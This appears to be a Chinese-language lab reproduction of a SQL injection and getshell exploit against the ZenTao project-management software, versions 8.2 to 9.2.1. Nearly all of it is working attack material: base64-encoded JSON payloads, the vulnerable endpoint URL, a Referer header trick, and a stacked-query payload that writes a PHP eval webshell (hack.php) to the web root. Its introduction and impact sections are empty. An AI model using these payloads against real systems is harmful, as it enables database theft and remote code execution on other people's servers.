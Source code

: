 ```yaml
---
title: "禅道8.2-9.2.1 注入GetShell"
id: zhfly3361
---
```


# 禅道 8.2-9.2.1 注入&getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我这里用的官方集成环境版本8.4

```
获取版本号：/index.php?mode=getconfig 
```

![image](../img/6e71c022c33bdb7f18a7472a2e70f5f1.png)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![image](../img/79cfb8728ab92196b9abb7c7e3deb1bd.png)

没路径的报错exp：

```
{"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"} 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= 
```

EXP

```
提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64 
```

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：http://127.0.0.1:81/zentao/

注入显密码：

```
{"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"} 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

不知道什么原因，本地复现无账号密码回显。。。

![image](../img/68b8ad9ee090cd8e8155ebdf41ac74d4.png)

前台GetShell：

```
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"} 
```

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

```
select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php' 
```

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

```
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

访问之即可在目录下生成hack.php：

![image](../img/68b8ad9ee090cd8e8155ebdf41ac74d4.png)